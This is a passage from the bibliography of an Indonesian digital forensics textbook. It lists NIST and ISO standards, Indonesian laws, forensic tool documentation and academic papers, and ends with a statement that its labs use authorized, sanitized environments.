7. NIST (2014). *SP 800-101 Rev. 1: Guidelines on Mobile Device Forensics*. National Institute of Standards and Technology.

8. NIST (2012). *SP 800-92: Guide to Computer Security Log Management*. National Institute of Standards and Technology.

9. NIST (2012). *SP 800-61 Rev. 2: Computer Security Incident Handling Guide*. National Institute of Standards and Technology.

10. ISO/IEC 27037:2012. *Information Technology — Security Techniques — Guidelines for Identification, Collection, Acquisition and Preservation of Digital Evidence*. International Organization for Standardization.

11. ISO/IEC 17025:2017. *General Requirements for the Competence of Testing and Calibration Laboratories*. International Organization for Standardization.

12. RFC 3227 (2002). *Guidelines for Evidence Collection and Archiving*. Internet Engineering Task Force.

## Hukum dan Regulasi Indonesia

13. Undang-Undang Nomor 11 Tahun 2008 tentang Informasi dan Transaksi Elektronik, sebagaimana telah diubah dengan Undang-Undang Nomor 19 Tahun 2016.

14. Undang-Undang Nomor 27 Tahun 2022 tentang Pelindungan Data Pribadi.

15. Kitab Undang-Undang Hukum Acara Pidana (KUHAP), Undang-Undang Nomor 8 Tahun 1981.

16. Peraturan Pemerintah Nomor 71 Tahun 2019 tentang Penyelenggaraan Sistem dan Transaksi Elektronik.

## Dokumentasi Tools

17. Volatility Foundation. (2023). *Volatility 3 Documentation*. https://volatility3.readthedocs.io/

18. Plaso Project. (2024). *log2timeline/plaso Documentation*. https://plaso.readthedocs.io/

19. Timesketch Team. (2024). *Timesketch Documentation*. https://timesketch.org/

20. Sleuth Kit & Autopsy. (2024). *The Sleuth Kit Documentation*. https://sleuthkit.org/

## Publikasi Akademik dan Laporan Industri

21. Altheide, C., & Carvey, H. (2011). *Digital Forensics with Open Source Tools*. Syngress.

22. Beebe, N. L., & Clark, J. G. (2005). A hierarchical, objectives-based framework for the digital investigations process. *Digital Investigation*, 2(2), 147–167.

23. McKemmish, R. (1999). *What is Forensic Computing?* Trends & Issues in Crime and Criminal Justice. Australian Institute of Criminology.

24. Garfinkel, S. (2010). Digital forensics research: The next 10 years. *Digital Investigation*, 7, S64–S73.

25. Quick, D., & Choo, K. K. R. (2014). Impacts of increasing volume of digital forensic data: A survey and future research challenges. *Digital Investigation*, 11(4), 273–294.

26. CyBOK (2021). *Forensics Knowledge Area v1.1*. The Cyber Security Body of Knowledge. https://www.cybok.org/

27. ACPO (2012). *Good Practice Guide for Digital Evidence*. Association of Chief Police Officers.

28. SWGDE (2018). *SWGDE Best Practices for Computer Forensics*. Scientific Working Group on Digital Evidence.

29. Case, A., & Richard, G. G. (2017). Memory forensics: The path forward. *Digital Investigation*, 20, S23–S33.

30. Cantrell, G., Dampier, D., Dandass, Y. S., Niu, N., & Bogen, C. (2012). Research toward a partially-automated, and crime specific digital triage process model. *Computer and Information Science*, 5(2), 29.

---

*Buku ajar ini diselaraskan dengan RPS MK-E-06 Advanced Digital Forensics Program Studi Magister Terapan Forensik Digital dan Keamanan Siber. Seluruh contoh kode, script, dan praktikum dirancang untuk lingkungan yang berotorisasi, menggunakan dataset yang disanitasi atau disediakan dosen. Tidak ada instruksi dalam buku ini yang ditujukan untuk aksi ofensif pada sistem nyata.*

*Versi: 1.0 | Semester Ganjil 2025/2026*
